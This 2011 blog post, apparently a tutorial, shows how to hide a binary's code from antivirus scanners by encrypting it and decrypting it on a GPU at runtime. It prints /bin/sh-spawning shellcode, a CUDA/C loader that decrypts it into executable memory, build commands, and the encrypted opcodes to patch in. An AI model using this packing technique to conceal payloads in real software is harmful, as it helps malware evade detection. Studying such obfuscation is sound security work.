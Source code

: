 ```yaml
---
layout: post
title:  "GPU assisted ELF binary decryption"
date:   2011-12-18
excerpt: "Decrypt an ELF binary using CUDA at runtime"
feature: https://stack0verflow.files.wordpress.com/2011/12/selection_009.png?w=2000&h=
tag:
- CUDA
- GPU
- malware
- reverse engineering
comments: true
---
```

Usually a malware writer, or a closed source product, use some techniques in order to make the binaries difficult to read. On the one hand, the anti-virus are unable to read the signature of the malware and on the other hand a reverse engineer’s life becomes difficult.
One technique (usually not implemented alone), is to encrypt some portions of the code and decrypt them at runtime, or better decrypt each time the code we want to run and then encrypt it back.
As GPU’s have extremely high computational power, we can have really complex functions for encrypting and decrypting our code. I’ve made a really simple example of a self-decrypting application and i’ll try to explain this step by step.

First of all what is our program going to do? Well it will spawn a shell. The assembly code (we need assembly code so it can be portable) to do that is:

{% highlight assembly %}
global _shell

_shell:
xor ecx, ecx
mul ecx
push ecx
push 0x68732f2f
push 0x6e69622f
mov ebx, esp
mov al, 11
int 0x80
{% endhighlight %}

You can find codes like this freely available on the internet (this one is written by kernel panik), or you can make your own if you want specific things to be done (or just want to learn). We want our code to be portable, and not containing relative addresses.

So now that we have our assembly code, we compile it to an object file:

{% highlight bash %}
nasm shell.asm -f elf32 -o shell.o
{% endhighlight %}

Our code for the self-decrypting binary is this one, written in C for CUDA:

{% highlight c %}
#include <stdio.h>
#include <sys/mman.h>
#include <cuda.h>
 
#define len 21
 
__global__ void decrypt(unsigned char *code)
{
	int indx = threadIdx.x;
	code[indx] ^= 12;
}
 
extern "C" void _shell();
 
int main(void)
{
 
	unsigned char *p = (unsigned char*) _shell;
	unsigned char *d_shell, *h_shell;
	 
	h_shell = (unsigned char *) malloc(sizeof(char) * len);
	 
	int i;
	for(i = 0; i < len; i++)
	{
		h_shell[i] = *p;
		p++;
	}
	cudaMalloc((void **) &d_shell, sizeof(char) * len);
	cudaMemcpy(d_shell, h_shell, sizeof(char) * len, cudaMemcpyHostToDevice);
	decrypt<<< 1, len >>>(d_shell);
	cudaMemcpy(h_shell, d_shell, sizeof(char) * len, cudaMemcpyDeviceToHost);
	cudaFree(d_shell);
	char *d = (char *) mmap(NULL, len, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_PRIVATE|MAP_ANON,-1,0);
	 
	memcpy(d, h_shell, len);
	 
	((void(*)(void))d)();
}
{% endhighlight %}

Now, we have to find the length of the instructions. There are some ways to do this, but there is a project by oblique <a href="https://github.com/oblique/insn_len">here</a> that can do that very easily.

Now, some of you may wonder why i am mmaping and memcpying. Well there are some protections around, that prevent us from writing to some portions of memory such as .text. So we have to load our encrypted code, decrypt it and mmap it to a new portion of memory that can be executed. This is where our flags go. After that we are ready to execute our code.

Okay I know, it’s a simple xor decryption with a fixed key, not really encrypted, but this is just a proof of concept. You can have a more complex stream cipher function like RC4 ect. Also you do not need to have a key saved in the binary somehow, but brute force until the code “makes sense”. With such a computation power it is pretty easy.

Now we compile our source code with nvcc and link it:

{% highlight bash %}
nvcc shell_spawn.cu -c
gcc shell_spawn.o shell.o -o shell_spawn -L/usr/local/cuda/lib -lcudart
{% endhighlight %}

And now we have our executable! But first we have to patch our binary with our encrypted function. The reason why we used stream ciphers is because we don not want to change the size of our function, and make things more complex. One simple way to patch our elf binary is simply by opening it with a hex editor ( i used Bless), and find the code we want to patch. But how? It’s simple:

{% highlight bash %}
objdump -d -j .text shell_spawn
{% endhighlight %}

and if you search you will see the _shell function:

{% highlight assembly %}
8048a30:    31 c9                  xor    %ecx,%ecx
8048a32:    f7 e1                  mul    %ecx
8048a34:    51                     push   %ecx
8048a35:    68 2f 2f 73 68         push   $0x68732f2f
8048a3a:    68 2f 62 69 6e         push   $0x6e69622f
8048a3f:    89 e3                  mov    %esp,%ebx
8048a41:    b0 0b                  mov    $0xb,%al
8048a43:    cd 80                  int    $0x80
{% endhighlight %}

Now we simply encrypt the op codes. I used xor 12 so my output is this:

{% highlight bash %}
3dc5fbed5d6423237f6464236e656285efbc07c18c
{% endhighlight %}

After that we save our file and if we execute it we can see that a shell spawns!

<figure >
<a href="https://stack0verflow.files.wordpress.com/2011/12/selection_011.png"><img src="https://stack0verflow.files.wordpress.com/2011/12/selection_011.png"></a>
</figure>

We open our hex editor, load our binary and replace our old _shell function with our encrypted one:

<figure class="half">
	<a href="https://stack0verflow.files.wordpress.com/2011/12/selection_009.png?w=2000&h="><img src="https://stack0verflow.files.wordpress.com/2011/12/selection_009.png?w=2000&h="></a>
	<a href="https://stack0verflow.files.wordpress.com/2011/12/selection_010.png?w=2000&h="><img src="https://stack0verflow.files.wordpress.com/2011/12/selection_010.png?w=2000&h="></a>
	<figcaption><center>Finding and replacing the relevant code using a hex editor</center></figcaption>
</figure>

If we objdump our file, we can see our function _shell, but this time is doing random stuff:

{% highlight assembly %}
8048a30:    3d c5 fb ed 5d  cmp  $0x5dedfbc5,%eax
8048a35:    64 23 23        and  %fs:(%ebx),%esp
8048a38:    7f 64           jg 8048a9e <__libc_csu_init+0x4e>
8048a3a:    64 23 6e 65     and %fs:0x65(%esi),%ebp
8048a3e:    62 85 ef bc 07 c1   bound  %eax,-0x3ef84311(%ebp)
8048a44:    8c 90 90 90 90 90    mov    %ss,-0x6f6f6f70(%eax)
{% endhighlight %}

You can find my source also on github <a href="https://github.com/mpekatsoula/gpu_ad">here</a>

I want to develop a strong cipher and find a better way to patch my binary, so this is just the idea. If someone wants to go deeper i’d like to hear new ideas. Until then, feel free to comment, point mistakes etc :)

Sources:

[1]: <a href="https://stack0verflow.wordpress.com/2011/12/18/gpu-assisted-elf-binary-decryption/dcs.ics.forth.gr/Activities/papers/gpumalware.malware10.pdf">GPU Assisted malware</a>
